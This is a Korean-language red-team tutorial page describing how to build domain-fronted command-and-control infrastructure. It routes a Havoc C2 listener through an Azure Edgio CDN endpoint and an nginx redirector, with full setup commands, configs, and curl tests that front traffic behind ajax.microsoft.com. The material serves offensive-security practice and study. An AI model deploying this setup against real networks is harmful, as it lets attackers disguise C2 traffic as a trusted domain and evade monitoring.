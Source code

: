 # 도메인 프론팅 - Azure Edgio CDN

본 페이지는 다음의 링크들을 바탕으로 만들어졌습니다: https://0xdarkvortex.dev/c2-infra-on-azure/, https://redops.at/en/blog/cobalt-strike-cdn-reverse-proxy-setup)

2010년대 후반부터 2020년대 초반까지, 도메인 프론팅을 악용하는 공격자들 때문에 많은 수의 CDN 서비스들이 도메인 프론팅 기능을 더 이상 지원하지 않았다. 하지만 2023년 9월, 마이크로소프트가 LimeNetwork의 CDN을 edgio로 리브랜딩 하고, Azure에서 서비스 하기 시작하면서 해당 CDN은 도메인 프론팅을 다시 지원하고 있다.

도메인 프론팅과 관련된 개념은 [이전 글](https://www.xn--hy1b43d247a.com/infrastructure/domain-fronting)에서 설명했으니, 이번 글에서는 ParanoidNinja (Chetan Nayak)와 RedOps에서 발표한 블로그 글을 토대로 마이크로소프트사의 CDN을 이용해 도메인 프론팅을 진행한다.

실습으로는 하복 C2를 사용하지만, 도메인 프론팅의 개념을 알아보기 위해서 굳이 C2까지 사용하지 않아도 된다. 그냥 `python3 -m http.server 80` 하고 파일 가져오기 하는 것으로도 충분하다. 하지만 poc는 재미없기도 하고, C2 연습을 해보고 싶으니 하복을 이용해 진행한다.

## 준비물

* 공격자 도메인
* 공격자 리다이렉터 (+ 공인 아이피)
* 공격자 C2 (+ 공인 아이피)
* Azure 계정 및 구독

## 리다이렉터

리다이렉터는 nginx를 사용한다. 박스가 만들어지면 바로 공격자 도메인에 박스 공인 아이피를 이용해 A 레코드를 등록한다. 이 A 레코드는 추후 CDN에도 필요하다. 이후 certbot을 이용해 인증서를 받는다.

방화벽 (AWS security group)

* 80: 인터넷
* 443: 인터넷
* 22: 오퍼레이터 IP

```
# nginx + certbot 설치 
sudo apt update -y 
sudo apt install nginx python3-certbot-nginx certbot python3-certbot-dns-route53 -y

# 와일드카드를 위해 DNS 검증 
sudo certbot certonly -d '*.rtplaybook.com' -d 'rtplaybook.com' --manual --preferred-challenges=dns --agree-tos -m admin@rtplaybook.com

# certbot 가 내뱉는 값들 route53에 _acme-challenge.domain.com TXT 레코드로 생성 
# 귀찮지만 2번 해야한다. AWS Route53 사용시 같은 TXT 레코드에 챌린지 2줄을 적으면 된다. 
```

그러면 다음과 같이 인증서가 나온다

```
[ . . . ] 
Successfully received certificate.
Certificate is saved at: /etc/letsencrypt/live/rtplaybook.com/fullchain.pem
Key is saved at:         /etc/letsencrypt/live/rtplaybook.com/privkey.pem
This certificate expires on 2025-01-29.
```

## C2

C2는 오픈소스 하복을 설치한다. 하복은 조만간 Rewrite 1.0 버전이 나올거기 때문에 설치 방법이 다를테니, 공식 깃헙 리포를 확인한다.

개념 증명용이라 작전보안은 최소한으로 생각했다. 때문에 포트포워딩이 귀찮아 그냥 공인 아이피를 주고, 오퍼레이터 집 IP에서 접근 가능하도록 방화벽을 설정한다.

방화벽 (AWS security group)

* 80: 10.0.0.0/8
* 443: 10.0.0.0/8
* 22: 오퍼레이터 IP
* 40056: 오퍼레이터 IP

```
하복 설치 - https://havocframework.com/docs/installation
```

## CDN

이후 Azure CDN 설정을 진행한다. 먼저 Subscription에서 CDN을 등록해 돈이 빠져나가도록 (...) 한다.

* Azure > Subscriptions > Settings > Resource Providers > CDN 검색 > Microsoft.Cdn > Register

이후, CDN을 만든다.

1. Azure > CDN > Front Door and CDN profiles > Create
2. Explore other offerings > Azure CDN Standard from Edgio
3. 이후 CDN 이름, CDN 엔드포인트 이름, 리다이렉터의 A 레코드 등을 지정한다. Bypass caching for query strings를 지정한다.

<figure><img src="../.gitbook/assets/2-azurecdn.png" alt=""><figcaption></figcaption></figure>



4. 만든 이후 CDN > Endpoint를 클릭한 뒤, 설정을 마저 한다.

* Settings > Compression > Off
* Settings > Caching rules > Caching behavior: Bypass cache

## 테스트

먼저 하복 C2와 리다이렉터 설정을 하기전에, 간단하게 테스트를 진행한다.

```
# 리다이렉터 
mkdir /var/www/html
cd /var/www/html
echo "hello world from redirector" > hmmtesto.txt
python3 -m http.server 8443

# /etc/nginx/sites-enabled/default  맨 끝에 추가해준다. 도메인 이름만 바꾼다.  
server {
    listen 443 ssl;
    server_name rtplaybook.com docs.rtplaybook.com;

    ssl_certificate /etc/letsencrypt/live/rtplaybook.com/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/rtplaybook.com/privkey.pem;

    root /var/www/html;
    location / {
        try_files $uri $uri/ =404;
    }
}

sudo nginx -s reload

# 아무 호스트에서 테스트 
┌──(root㉿kali)-[/]
└─# curl https://docs.rtplaybook.com/hmmtesto.txt
hello world from redirector

┌──(root㉿kali)-[/]
└─# curl https://rtp-cache.azureedge.net/hmmtesto.txt
hello world from redirector

┌──(root㉿kali)-[/]
└─# curl https://ajax.microsoft.com/hmmtesto.txt -H 'host: rtp-cache.azureedge.net'
hello world from redirector
```

1. docs.rtplaybook - 도메인 이름도 잘 되고
2. rtp-cache.azureedge.net - CDN 이름도 잘 되고
3. ajax.microsoft.com - 도메인 프론팅도 잘 되는 것을 볼 수 있다.

특히 3번 도메인 프론팅이 성공적이였다. 실제로 ajax.microsoft.com은 존재하는 서브도메인이고 해당 아이피주소에 hmmtesto.txt 라는 파일이 없더라도, host 헤더에 공격자의 CDN 이름을 지정하면 해당 CDN으로 HTTP 요청이 날라가는 것을 확인했다.

## C2 테스트

이제 C2 로 테스트를 마무리한다.

MalleableC2로 제대로 테스트 하려면 https://github.com/ChoiSG/havoc2nginx 같은 프로젝트를 사용하면 되지만, 그냥 개념 증명용으로 간단하게 설정한다.

먼저, 하복 리스너를 만들어준다.

<figure><img src="../.gitbook/assets/3-listener.png" alt=""><figcaption></figcaption></figure>

* **Hosts:** 콜백하는 주소는 ajax.microsoft.com
* **URIs:** 테스트용도로 `/rtplaybook.js` 와 txt, png
* **Host Header:** 도메인 프론팅을 통해 도달할 CDN 주소는 `rtp-cache.azureedge.net`
* **Host (bind):** 실제로 바인드 될 주소는 AWS 내부 아이피인 `10.1.2.22`

그 뒤, 리다이렉터의 nginx 설정값에서 프록시 설정과 URIs 설정을 해준다. 이전 설정에서 약간만 바꿔주면 된다.

```
root@ip-10-1-12-78:/var/www/html# cat /etc/nginx/sites-enabled/default

server {
    listen 443 ssl;
    server_name rtplaybook.com docs.rtplaybook.com;

    ssl_certificate /etc/letsencrypt/live/rtplaybook.com/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/rtplaybook.com/privkey.pem;

    root /var/www/html;
    location ~ ^/(rtplaybook.txt|rtplaybook.js|rtplaybook.png) {
        proxy_pass https://10.1.2.22:443;
    }
}
```

이외에도 User Agent, 아이피 블랙 리스트 등의 작전보안을 생각해도 되겠지만, 일단은 개념 증명용으로 진행한다.

## 결과

페이로드 실행 후, 콜백이 제대로 되는 것을 볼 수 있다.

<figure><img src="../.gitbook/assets/4-callback.png" alt=""><figcaption></figcaption></figure>

엔드포인트의 와이어샤크에서는 다음과 같은 트래픽이 보인다. 일단 DNS로 ajax.microsoft.com을 알아낸 뒤, 모든 HTTPS 트래픽은 ajax.microsoft.com으로 보낸다. 물론 DPI이나 포워드 프록시에서 HTTPS를 드러내면 HTTP 요청의 Host 헤더에는 `rtp-cache.azureedge.net` 이 보일 것이다.

<figure><img src="../.gitbook/assets/5-wireshark (1).png" alt=""><figcaption></figcaption></figure>

## 마치며

도메인 프론팅은 몇년 전 CDN 서비스 프로바이더들이 심각하게 생각하며 지원을 종료했던 기능이다. 하지만 SNI와 Host 헤더간의 차이, CDN의 특성 자체는 시간이 지나도 바뀌지 않기 때문에 도메인 프론팅이 가능한 CDN 프로바이더가 있다면 공격자들은 항상 이를 악용할 것이다. Azure의 Edgio CDN이 도메인 프론팅을 지원하자마자 레드티머들이 사용하는 것처럼 말이다.

## 레퍼런스

* https://0xdarkvortex.dev/c2-infra-on-azure/
* https://redops.at/en/blog/cobalt-strike-cdn-reverse-proxy-setup
